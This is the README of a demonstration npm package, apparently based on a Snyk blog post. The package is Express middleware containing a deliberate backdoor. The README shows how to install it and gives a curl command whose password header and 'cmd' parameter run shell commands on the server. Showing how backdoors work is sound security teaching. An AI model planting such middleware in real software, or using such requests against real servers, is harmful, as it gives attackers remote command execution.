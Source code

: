 # bad-idea-express-backdoor

express middleware containing a backdoor

for demonstration purposes only

from the [excellent Snyk blog post](https://snyk.io/blog/what-is-a-backdoor/).


### usage

```js
const express = require("express")
const expressBackdoor = require("bad-idea-express-backdoor")

const app = express();

app.use(expressBackdoor())

app.get("/", (req, res)=>{
  res.send("Hello Chrome User!")
})

app.listen(8080)
```

### try it

```bash
node example.js
```

in another terminal, send commands to the backdoor
```bash
$ curl -H 'knock_knock: p@ssw0rd1234' 'localhost:8080?cmd=uname%20-a'
{
  "err": null,
  "stdout": "Linux roon 5.0.0-38-generic #41-Ubuntu SMP Tue Dec 3 00:27:35 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux\n",
  "stderr": ""
}%
```